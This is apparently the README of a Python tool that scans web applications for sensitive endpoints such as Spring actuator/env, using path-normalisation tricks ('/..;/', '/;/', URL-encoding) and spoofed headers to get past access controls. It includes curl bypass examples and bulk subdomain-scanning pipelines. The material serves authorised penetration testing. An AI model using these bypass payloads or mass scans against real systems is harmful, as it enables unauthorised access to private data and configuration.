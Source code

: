 [中文版](https://xz.aliyun.com/t/12530)

# endpoints_explore
Endpoints Explorer is a Python script that employs multiple bypass rules to discover sensitive endpoints

## Overview
This script uses the aiohttp library to make asynchronous HTTP requests and scans the endpoints for sensitive information in a highly concurrent manner. The script attempts multiple bypass rules and returns as soon as sensitive information is found.

### Background
![app](https://github.com/wzqs/endpoints_explore/assets/71961807/a04e23a9-391b-48d7-9a6d-49fcc00a877f)

Users access through the app or browser, and the requests may pass through a CDN to a reverse proxy/load balancer. Based on the configuration, the request traffic is forwarded and routed to an API gateway, which then distributes the requests to various application services for processing.

In the backend architecture, each component completes its respective tasks by identifying the URI. If there are any parsing differences or conflicts between any of these components, it can lead to permission bypass vulnerabilities. Common situations include:

- Incompatibilities or conflicts between Tomcat/Jetty and servlet-based filter interceptors.
- Permission verification component and framework handling discrepancies leading to bypass.
- Nginx and Tomcat/Jetty conflicts.
- Improper Nginx configuration.
- Inadequate permission verification.


### Some Cases

```
# Status: 404 Not Found  OR  200
curl "https://127.0.0.1"

# Status: 404 Not Found OR 403 Forbidden
curl "https://127.0.0.1/actuator/env"

# Status: 404 Not Found
curl "https://127.0.0.1/v2/api-docs"

# Status: 404 Not Found
curl "https://127.0.0.1/nothing/actuator/env"
```

when discover the valid path /api/

```
# Status: 403 Forbidden
curl "https://127.0.0.1/api/actuator/env"

# Status: 404
curl "https://127.0.0.1/api/v2/api-docs"

# Status: 403
curl "https://127.0.0.1/api/users/query"

Response: {"message": "forbidden"}
```

to use some characters to bypass ACL

```
# Success
curl "https://127.0.0.1/api/..;/actuator;aaaa/env;.js"

# Success
curl "https://127.0.0.1/api/..;/v2/api-docs"

# Success
curl "https://127.0.0.1//api;/users/query"

Response: {"code":200,"status":0,"message":"SUCCESS","data":[{"users":"...
```


### Recommended Reading:

- https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf
- https://xz.aliyun.com/t/7544
- https://tttang.com/archive/1592/
- https://joychou.org/web/security-of-getRequestURI.html



## Features
- Tests with bypass rules(`/..;/`,`/;/`,`/;js/`,`/../`,`(double)urlencode` etc.)
- Performs highly concurrent scanning with asynchronous HTTP requests
- Supports checking if paths exist before scanning
- Filtered output for similar content
- support custom headers(such as xff, cookie, authorization...)
- Save the results.log in current directory


## Usage
First, you need to install the Python libraries that this script depends on, which can be installed with the following command:
```
pip install aiohttp asyncio colorama
```

Then, you can run this script with command-line arguments. Here is the basic usage of the script:
```
python3 endpoints_explorer.py <base_url> <normal_paths_dict> <sensitive_files_dict> [-c <concurrency>] [-v] [-e]
```
Here is a detailed explanation of the parameters:

- base_url: The base URL to scan.
- normal_paths_dict: The path to the normal paths dictionary.
- sensitive_files_dict: The path to the sensitive files dictionary.
- -c, --concurrency: The concurrency level, default is 5.
- -v, --verbose: Enable verbose output.
- -e, --check-existence: Check if the paths exist before scanning.
- -H, --headers: Custom headers to inject in requests

example:

```
$ cat sensitive_files_dict.txt

/actuator/env
/env
```
It's worth noting that the normal_paths_dict can be collected from active or passive crawling methods. This largely depends on the capabilities of your crawling tools and is not covered by the functionality of this script.

```
$ cat normal_paths_dict.txt

/api/
/manage/
```
console screenshot:

![image](https://github.com/wzqs/endpoints_explore/assets/71961807/3556e555-18fd-4c5d-959c-fa7ab679f833)

add headers bypass

```
python3 endpoints_explorer.py {url} {normal_paths_dict.txt} {sensitive_files_dict.txt}
[-] No sensitive files were found:

python3 endpoints_explorer.py {url} {normal_paths_dict.txt} {sensitive_files_dict.txt} -H "X-Forwarded-For: 127.0.0.1"
[+] Sensitive endpoint found:

python3 endpoints_explorer.py {url} {normal_paths_dict.txt} {sensitive_files_dict.txt} -H "Bearer abcdefg"
[+] Sensitive endpoint found:
```

The scan results are also saved in the results.log in the current directory.

### Tips
Although the script does not directly support multi-URL scanning, you can use it in conjunction with other security tools.

- Bulk scanning for sensitive information on live URLs
```
cat urls_list.txt | httpx -silent | parallel -j 50 -- python3 endpoints_explorer.py {} normal_paths_dict.txt sensitive_files_dict.txt -c 50 -e
```
- Automatically scan for sensitive information on live subdomains
```
subfinder -d example.com -silent | httpx -silent | xargs -I {} python3 endpoints_explorer.py {} normal_paths_dict.txt sensitive_files_dict.txt -c 50 -e
```

In a sense, this script serves as a permission bypass tool. 

### Notes

Please note that while the code has been thoroughly tested, there may be potential bugs and inaccuracies. The path existence checks are not foolproof and the scanning speed is influenced by factors like your own system, the target server, and network conditions. Be aware that high concurrency might impact the server's performance. Always ensure that you have proper authorization before initiating any scans to avoid legal or ethical issues. Use responsibly.

### TODO
- generate the normal_paths_dict rules based on the domain


## Disclaimer
This script is intended only for lawful, authorized security testing activities and must not be used for any illegal activities. Users are responsible for all consequences of using this script.

## Thanks

- [chatgpt](https://chat.openai.com/)
- https://github.com/ldbfpiaoran/springboot-acl-bypass
- https://github.com/projectdiscovery/pdtm
